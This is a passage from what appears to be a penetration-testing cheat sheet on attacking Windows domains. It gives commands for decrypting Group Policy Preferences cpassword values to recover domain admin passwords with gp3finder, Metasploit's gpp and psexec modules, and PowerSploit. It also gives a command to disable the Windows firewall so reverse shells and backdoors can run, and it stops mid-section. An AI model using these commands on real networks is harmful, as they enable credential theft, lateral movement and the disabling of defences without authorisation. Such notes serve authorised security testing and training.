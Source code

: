 The goal here is to decrypt the `cpassword` value found in the file `groups.xml`. This issue affects Windows server 2008. Then by using the below tool

```
http://www.sec-1.com/blog/wp-content/uploads/2015/05/gp3finder_v4.0.zip
```

we can execute the below command to decrypt and obtain the domain admin password

```
gp3finder.exe -D cpassword
```

Replace `cpassword` with the value you found earlier

#### With Metasploit

After gaining a meterpreter session, use the below module

```
post/windows/gather/credentials/gpp
```

After Metasploit has decrypted the credentials, they can be used to login with the below module

```
exploit/windows/smb/psexec

set RPORT 445
set SHARE ADMIN$
set SMBDomain domain-name-here
```

#### With Powersploit

Use the below two modules

```powershell
Get-CachedGPPPassword //For locally stored GP Files

Get-GPPPassword //For GP Files stored in the DC
```

## Post exploitation

### Disabling Windows Firewall

Obviously to be able to effortlessly control the machine with reverse shells and backdoors, we need to disable the windows firewall

```
Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False
```

### Post exploitation with Metasploit to a domain-joined machine

On Meterpreter
